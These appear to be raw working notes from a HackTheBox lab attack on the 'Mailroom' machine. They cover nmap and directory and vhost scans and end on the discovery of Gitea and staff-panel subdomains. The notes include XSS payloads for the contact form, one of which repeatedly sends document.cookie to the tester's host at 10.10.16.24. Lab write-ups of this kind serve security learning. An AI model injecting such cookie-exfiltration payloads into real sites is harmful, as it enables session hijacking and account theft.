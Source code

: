 └─$ nmap 10.10.11.219
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 22:00 EDT
Nmap scan report for 10.10.11.219
Host is up (0.56s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 73.85 se

mailroom.htb

we will add that to /etc/hosts

dirb mailroom.htb

gobuster dir --url http://mailroom.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k

there is a contact.php tho

![](20230701233408.png)

has an xss!

has two xsss

its a manual review so lets see if the xss can connect back 

dirb result

```
----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://mailroom.htb/ ----
==> DIRECTORY: http://mailroom.htb/assets/                                                                         
==> DIRECTORY: http://mailroom.htb/css/                                                                            
==> DIRECTORY: http://mailroom.htb/font/                                                                           
+ http://mailroom.htb/index.php (CODE:200|SIZE:7748)                                                               
==> DIRECTORY: http://mailroom.htb/inquiries/                                                                      
==> DIRECTORY: http://mailroom.htb/javascript/                                                                     
==> DIRECTORY: http://mailroom.htb/js/                                                                             
+ http://mailroom.htb/server-status (CODE:403|SIZE:277)                                                            
+ http://mailroom.htb/template (CODE:403|SIZE:277)                                                                 
                                                                                                                   
---- Entering directory: http://mailroom.htb/assets/ ----
+ http://mailroom.htb/assets/favicon.ico (CODE:200|SIZE:134582)                                                    
                                                                                                                   
---- Entering directory: http://mailroom.htb/css/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/font/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/inquiries/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/javascript/ ----
==> DIRECTORY: http://mailroom.htb/javascript/jquery/                                                              
                                                                                                                   
---- Entering directory: http://mailroom.htb/js/ ----
                                                                                                                   
---- Entering directory: http://mailroom.htb/javascript/jquery/ ----
+ http://mailroom.htb/javascript/jquery/jquery (CODE:200|SIZE:287600)                                              
                                                                        
```

```
┌──(kali㉿kali)-[~]
└─$ gobuster dir --url http://mailroom.htb --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://mailroom.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/07/01 22:29:02 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 313] [--> http://mailroom.htb/assets/]
/css                  (Status: 301) [Size: 310] [--> http://mailroom.htb/css/]
/template             (Status: 403) [Size: 277]
/js                   (Status: 301) [Size: 309] [--> http://mailroom.htb/js/]
/javascript           (Status: 301) [Size: 317] [--> http://mailroom.htb/javascript/]
/font                 (Status: 301) [Size: 311] [--> http://mailroom.htb/font/]
/server-status        (Status: 403) [Size: 277]
Progress: 220560 / 220561 (100.00%)
===============================================================
2023/07/02 01:49:02 Finished
===============================================================

```


```
POST /contact.php HTTP/1.1
Host: mailroom.htb
Content-Length: 56
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://mailroom.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://mailroom.htb/contact.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

email=ashwin%40instagram.com&title=ashwin&message=ashwin
```

<img src="10.10.16.24:8000/test.jpg" /> <script src="http://10.10.16.24:8000/cookie.js"></script>

![](20230702070727.png)

getting this

no cookie

so maybe we can try

https://github.com/shelld3v/JSshell

jsh.py -g

<script>setInterval(function(){with(document)body.appendChild(createElement("script")).src="//10.10.16.24:4848/?".concat(document.cookie)},1010)</script>

it does give us a shell but for what?

![](20230702101704.png)

need to look for alternatives.

so obviously this is different from pilgrimae as we know it

this is mailroom htb.
and there is already a machine called mailroom so! maybe they goofed up the machines?

yes they did

![](20230702102326.png)

hahaha. anywhoo.

dirsearch -u http://mailroom.htb -t 200

```
 gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u mailroom.htb -t 50 --append-domain
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://mailroom.htb
[+] Method:          GET
[+] Threads:         50
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.5
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
2023/07/02 20:23:15 Starting gobuster in VHOST enumeration mode
===============================================================
Found: git.mailroom.htb Status: 200 [Size: 13201]
Progress: 4989 / 4990 (99.98%)
===============================================================
2023/07/02 20:23:57 Finished

```

lets add to /etc/hosts 

![](20230702202632.png)

got a gittea directory.

lets do adirectory enumeration on subdomain

we will get to know th eusers of gitea

in the repo htereis a metnion of another subdomain

staff-review-panel.mailroom.htb





